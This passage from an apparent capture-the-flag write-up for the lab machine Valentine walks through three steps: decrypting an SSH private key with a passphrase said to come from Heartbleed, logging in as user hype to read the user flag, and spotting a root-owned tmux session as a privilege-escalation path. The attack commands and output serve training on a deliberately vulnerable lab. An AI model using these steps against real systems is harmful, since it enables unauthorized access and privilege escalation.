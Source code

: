 We can use openssl to try to decrypt. It asks for a password… the decode of the base64 collected with heartbleed, `heartbleedbelievethehype` works:

```

root@kali# openssl rsa -in hype_key_encrypted -out hype_key_decrypted
Enter pass phrase for hype_key_encrypted:
writing RSA key

```

## SSH Access

With the decrypted key, ssh in as `hype`, given the file name:

```

root@kali# ssh -i ~/hype_key_decrypted hype@10.10.10.79
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:16:34 2018 from 10.10.14.3
hype@Valentine:~$ pwd
/home/hype

```

This banner confirms the OS identification from nmap as Ubuntu 12.04.

Now we can grab user.txt:

```

hype@Valentine:~$ find . -name user.txt -exec wc -c {} \; -exec cat {} \;
33 ./Desktop/user.txt
e6710a54...

```

## Privesc

There’s two clear paths to root here. Despite the fact that it’s been quite obvious that this is an older kernel, we’ll start with the more elegant one, since kernel exploits should be a last resort.

### Privesc 1: tmux Running as root

We see signed of tmux in a few places.

Process list, running as root:

```

hype@Valentine:~$ ps -ef | grep tmux
root       1022      1  0 Jul25 ?        00:00:54 /usr/bin/tmux -S /.devs/dev_sess

```
